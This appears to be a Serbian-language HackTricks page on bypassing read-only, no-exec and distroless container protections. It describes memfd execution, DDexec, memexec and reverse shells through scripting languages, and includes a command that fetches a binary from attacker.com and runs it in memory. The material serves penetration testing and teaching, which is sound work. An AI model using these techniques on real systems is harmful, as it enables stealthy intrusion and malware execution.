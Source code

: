 # Bypass FS protections: read-only / no-exec / Distroless

{{#include ../../../banners/hacktricks-training.md}}

## Videos

U sledećim video zapisima možete pronaći tehnike pomenute na ovoj stranici objašnjene detaljnije:

- [**DEF CON 31 - Istraživanje manipulacije Linux memorijom za stealth i evaziju**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**Stealth intruzije sa DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## read-only / no-exec scenario

Sve je češće pronaći linux mašine montirane sa **read-only (ro) zaštitom fajl sistema**, posebno u kontejnerima. To je zato što je pokretanje kontejnera sa ro fajl sistemom jednako lako kao postavljanje **`readOnlyRootFilesystem: true`** u `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Međutim, čak i ako je fajl sistem montiran kao ro, **`/dev/shm`** će i dalje biti zapisiv, tako da je lažno da ne možemo pisati ništa na disk. Ipak, ova fascikla će biti **montirana sa no-exec zaštitom**, tako da ako preuzmete binarni fajl ovde, **nećete moći da ga izvršite**.

> [!WARNING]
> Iz perspektive crvenog tima, ovo otežava **preuzimanje i izvršavanje** binarnih fajlova koji već nisu u sistemu (kao što su backdoor-i ili enumeratori poput `kubectl`).

## Easiest bypass: Scripts

Napomena da sam pomenuo binarne fajlove, možete **izvršiti bilo koji skript** sve dok je interpreter unutar mašine, kao što je **shell skript** ako je `sh` prisutan ili **python** **skript** ako je `python` instaliran.

Međutim, ovo nije dovoljno samo za izvršavanje vašeg binarnog backdoora ili drugih binarnih alata koje možda treba da pokrenete.

## Memory Bypasses

Ako želite da izvršite binarni fajl, ali fajl sistem to ne dozvoljava, najbolji način da to uradite je **izvršavanje iz memorije**, jer se **zaštite ne primenjuju tamo**.

### FD + exec syscall bypass

Ako imate neke moćne skriptne engine unutar mašine, kao što su **Python**, **Perl**, ili **Ruby**, mogli biste preuzeti binarni fajl za izvršavanje iz memorije, sačuvati ga u memorijskom fajl deskriptoru (`create_memfd` syscall), koji neće biti zaštićen tim zaštitama i zatim pozvati **`exec` syscall** označavajući **fd kao fajl za izvršavanje**.

Za ovo možete lako koristiti projekat [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Možete mu proslediti binarni fajl i on će generisati skript u naznačenom jeziku sa **binarno kompresovanim i b64 kodiranim** instrukcijama za **dekodiranje i dekompresiju** u **fd** kreiranom pozivom `create_memfd` syscall i pozivom **exec** syscall za njegovo pokretanje.

> [!WARNING]
> Ovo ne funkcioniše u drugim skriptim jezicima poput PHP ili Node jer nemaju nikakav **podrazumevani način za pozivanje sirovih syscalls** iz skripte, tako da nije moguće pozvati `create_memfd` za kreiranje **memorijskog fd** za čuvanje binarnog fajla.
>
> Štaviše, kreiranje **običnog fd** sa fajlom u `/dev/shm` neće raditi, jer nećete moći da ga pokrenete jer će se primeniti **no-exec zaštita**.

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) je tehnika koja vam omogućava da **modifikujete memoriju vašeg vlastitog procesa** prepisivanjem njegovog **`/proc/self/mem`**.

Dakle, **kontrolišući asemblažni kod** koji se izvršava od strane procesa, možete napisati **shellcode** i "mutirati" proces da **izvrši bilo koji proizvoljni kod**.

> [!TIP]
> **DDexec / EverythingExec** će vam omogućiti da učitate i **izvršite** svoj **shellcode** ili **bilo koji binarni fajl** iz **memorije**.
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Za više informacija o ovoj tehnici proverite Github ili:

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) je prirodan sledeći korak DDexec-a. To je **DDexec shellcode demonizovan**, tako da svaki put kada želite da **pokrenete drugi binarni fajl** ne morate ponovo pokretati DDexec, možete jednostavno pokrenuti memexec shellcode putem DDexec tehnike i zatim **komunicirati sa ovim demonima da prosledite nove binarne fajlove za učitavanje i izvršavanje**.

Možete pronaći primer kako koristiti **memexec za izvršavanje binarnih fajlova iz PHP reverzne ljuske** na [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Sa sličnom svrhom kao DDexec, tehnika [**memdlopen**](https://github.com/arget13/memdlopen) omogućava **lakši način učitavanja binarnih fajlova** u memoriju za kasnije izvršavanje. Može čak omogućiti i učitavanje binarnih fajlova sa zavisnostima.

## Distroless Bypass

### Šta je distroless

Distroless kontejneri sadrže samo **najosnovnije komponente potrebne za pokretanje specifične aplikacije ili servisa**, kao što su biblioteke i zavisnosti u vreme izvršavanja, ali isključuju veće komponente poput menadžera paketa, ljuske ili sistemskih alata.

Cilj distroless kontejnera je da **smanji površinu napada kontejnera eliminisanjem nepotrebnih komponenti** i minimiziranjem broja ranjivosti koje se mogu iskoristiti.

### Reverzna ljuska

U distroless kontejneru možda **nećete ni pronaći `sh` ili `bash`** da dobijete regularnu ljusku. Takođe nećete pronaći binarne fajlove kao što su `ls`, `whoami`, `id`... sve što obično pokrećete u sistemu.

> [!WARNING]
> Stoga, **nećete** moći da dobijete **reverznu ljusku** ili **enumerišete** sistem kao što obično radite.

Međutim, ako kompromitovani kontejner pokreće, na primer, flask web, tada je python instaliran, i stoga možete dobiti **Python reverznu ljusku**. Ako pokreće node, možete dobiti Node rev shell, i isto važi za većinu **scripting jezika**.

> [!TIP]
> Koristeći scripting jezik mogli biste **enumerisati sistem** koristeći mogućnosti jezika.

Ako nema **`read-only/no-exec`** zaštita mogli biste iskoristiti svoju reverznu ljusku da **pišete u fajl sistem vaše binarne fajlove** i **izvršavate** ih.

> [!TIP]
> Međutim, u ovakvim kontejnerima ove zaštite obično postoje, ali mogli biste koristiti **prethodne tehnike izvršavanja u memoriji da ih zaobiđete**.

Možete pronaći **primere** o tome kako da **iskoristite neke RCE ranjivosti** da dobijete reverzne ljuske **scripting jezika** i izvršite binarne fajlove iz memorije na [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

{{#include ../../../banners/hacktricks-training.md}}
